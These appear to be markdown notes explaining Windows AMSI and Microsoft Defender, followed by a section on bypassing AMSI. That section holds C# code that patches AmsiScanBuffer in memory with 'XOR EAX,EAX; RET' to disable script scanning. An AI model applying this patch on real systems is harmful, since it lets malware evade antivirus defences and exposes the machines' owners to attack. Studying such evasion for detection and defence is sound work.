 
### AMSI and Defender Overview

#### 1. **AMSI (Antimalware Scan Interface)**
   AMSI is a Windows feature that allows applications and services to integrate with antivirus and antimalware products to detect and block malicious code. It is primarily designed to work with scripting engines like **PowerShell**, **JavaScript**, and **VBScript**, allowing these interpreters to send the code to the **AMSI provider** (like **Windows Defender**) for analysis before it executes. It helps prevent attacks like script-based malware or obfuscated PowerShell commands.

   - **Separate Role**: AMSI works as a scanner for applications that integrate with it, analyzing memory buffers before execution, even before the malware can run.
   - **In Conjunction**: AMSI and Defender work together when Defender is the registered **AMSI provider**. AMSI detects suspicious code, sends it to Defender for scanning, and Defender can block it if found malicious.

#### 2. **Windows Defender (Defender Antivirus)**
   Windows Defender (now called **Microsoft Defender Antivirus**) provides protection against malware by using signature-based detection, heuristic analysis, behavior monitoring, and machine learning. It can scan files, memory, and processes in real-time.

   - **Separate Role**: Defender can work without AMSI by using signatures and heuristics to detect and stop malware from running. It focuses on protecting the system by scanning files and processes and detecting malicious patterns.
   - **In Conjunction**: When integrated with AMSI, Defender gets enhanced visibility into memory buffers and script execution, especially useful for **in-memory** or **fileless** malware detection.

### Bypassing AMSI and Defender

#### **Bypassing AMSI**
Memory overwriting is **not always needed** to bypass AMSI. AMSI operates by scanning buffers of code sent to it, meaning that bypass methods can be implemented in different ways depending on the situation. Here are some common bypass methods:

- **Memory Patch (AMSI DLL in-memory patching)**: 
  This involves overwriting certain bytes in the memory where **AMSI.dll** is loaded to prevent the scanning function from working. By modifying the return value of `AmsiScanBuffer`, you can essentially stop AMSI from scanning.
  
  ```csharp
  [DllImport("kernel32.dll")]
  static extern IntPtr GetModuleHandle(string lpModuleName);

  [DllImport("kernel32.dll", SetLastError = true)]
  static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

  var amsiAddr = GetProcAddress(GetModuleHandle("amsi.dll"), "AmsiScanBuffer");
  byte[] patch = { 0x31, 0xC0, 0xC3 }; // XOR EAX,EAX; RET
  WriteProcessMemory(Process.GetCurrentProcess().Handle, amsiAddr, patch, (uint)patch.Length, out var _);
  ```
